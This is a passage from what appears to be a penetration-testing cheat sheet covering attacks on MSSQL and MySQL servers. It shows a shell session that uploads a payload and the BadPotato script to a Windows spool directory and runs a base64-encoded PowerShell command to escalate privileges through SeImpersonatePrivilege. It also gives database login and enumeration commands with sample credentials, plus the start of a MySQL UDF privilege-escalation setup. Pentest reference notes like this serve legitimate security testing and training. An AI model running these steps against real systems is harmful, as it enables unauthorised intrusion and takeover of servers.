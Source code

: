 Change `MSSQL_SERVER`, `MSSQL_USERNAME` and `MSSQL_PASSWORD` before running.

A scenario when [abusing SeImpersonatePrivilege with PrintSpoofer](/pentest/infrastructure/ad/privileges-abuse#printspoofer) (BadPotato):

```
$ python3 mssql_shell.py
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD pwn.exe \Windows\System32\spool\drivers\color\pwn.exe
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD Invoke-BadPotato.ps1 \Windows\System32\spool\drivers\color\potato.ps1
// . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Windows\System32\spool\drivers\color\pwn.exe"
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> powershell -enc LgAgAC4AXABJAG4AdgBvAGsAZQAtAEIAYQBkAFAAbwB0AGEAdABvAC4AcABzADEAOwAgAEkAbgB2AG8AawBlAC0AQgBhAGQAUABvAHQAYQB0AG8AIAAtAEMAIAAiAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABTAHkAcwB0AGUAbQAzADIAXABzAHAAbwBvAGwAXABkAHIAaQB2AGUAcgBzAFwAYwBvAGwAbwByAFwAcAB3AG4ALgBlAHgAZQAiAAoA
```



### mssql-cli

* [https://github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
$ python -m pip install mssql-cli
$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```




## MySQL/MariaDB

Basic CLI syntax:

```
$ mysql -h 127.0.0.1 -P 3306 -u snovvcrash -p'Passw0rd!' -e 'show databases;'
```

Basic enumeration:

```
mysql> show GRANTS;
mysql> select @@hostname, @@tmpdir, @@version, @@version_compile_machine, @@plugin_dir;
```



### UDF PrivEsc

* [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)
* [https://github.com/mysqludf/lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
* [https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9](https://gist.github.com/snovvcrash/efeb79d3e2648ec5009dd2ea7052f8b9)

Install dependencies:

```
$ sudo apt install libmariadbclient-dev -y
$ git clone https://github.com/mysqludf/lib_mysqludf_sys && cd lib_mysqludf_sys
```
